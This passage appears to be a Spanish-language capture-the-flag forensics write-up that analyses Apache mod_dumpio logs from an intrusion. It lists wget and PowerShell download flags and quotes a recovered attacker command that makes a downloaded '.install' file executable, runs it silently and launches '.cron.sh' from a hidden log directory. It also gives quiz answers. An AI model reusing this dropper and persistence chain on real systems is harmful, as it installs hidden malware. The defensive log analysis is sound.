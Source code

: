 * **`wget`**

  * `-O archivo` fuerza nombre de salida.
  * `-q` silencioso.
  * `-c` reanuda descargas.
  * `--no-check-certificate` omite validación TLS.
  * `--method=POST` y `--body-data=` para peticiones HTTP avanzadas.

* **PowerShell / Windows**

  * `Invoke-WebRequest -Uri URL -OutFile archivo`
  * `Start-BitsTransfer -Source URL -Destination archivo` (uso de BITS).

También es común que los atacantes ofusquen código o entrucciones en base64o urlencode, con esto en mente podemos ver lo siguiente:

Así que finalmente podemos ver lo que parece ser código ofuscado con el siguiente comando: 

![](../assets/images/cyber-azupot/imagen5.png)

Si tratamos de desencodearlo veremos que parece estar incompleto, ya que el mod\_dumpio en Apache registra los datos en crudo, cada vez que lee del socket o procesa un fragmento del cuerpo de la petición lo vuelca al log por separado, en bloques de tamaño fijo (o bien en función de cuándo recibe un `\r\n`). Por eso ves varias entradas consecutivas:

1. **Mod\_dumpio traza lecturas parciales**

   * Cada llamada interna a `ap_getline()` o `ap_rgetline()` (líneas marcadas con `(getline-blocking)`) vuelca el trozo de datos hasta el siguiente salto de línea o hasta el tamaño de buffer.
   * Cada llamada a la rutina que maneja el heap (marcada con `(data-HEAP)`) vuelca el siguiente bloque de bytes crudos.

2. **Tamaños de bloque y delimitadores**

   * De forma predeterminada mod\_dumpio volcará hasta un máximo de unos cuantos kilobytes por operación de lectura. Si tu base64 ocupa más, lo verás fragmentado.
   * Además, si la petición lleva `\r\n` (como parte del protocolo HTTP, o si el payload se envía en varias líneas), mod\_dumpio lo respetará y hará un nuevo dump cuando encuentre ese salto de línea.

Así que podemos obtener más datos con el siguiente comando: 
```bash
$ grep -B 5 -A 5 "\-\-data\-urlencode" error_log
```

Obtendremos varios fragmentos, en uno de ellos encontraremos lo siguiente: 
```bash 
 -o .install; chmod +x .install; sh .install > /dev/null 2>&1 & echo 'Done'; else echo 'Already install. Started'; cd .log/101068/.spoollog && sh .cron.sh > /dev/null 2>&1 & fi
```

En otra podemos ver: 
```bash 
rm -rf .install
```

Parece que esta es nuestra flag. 
---
<h3 style="color: #0d6efd;">Q9. El atacante descargó scripts SH. ¿Cómo se llaman estos archivos?</h3>
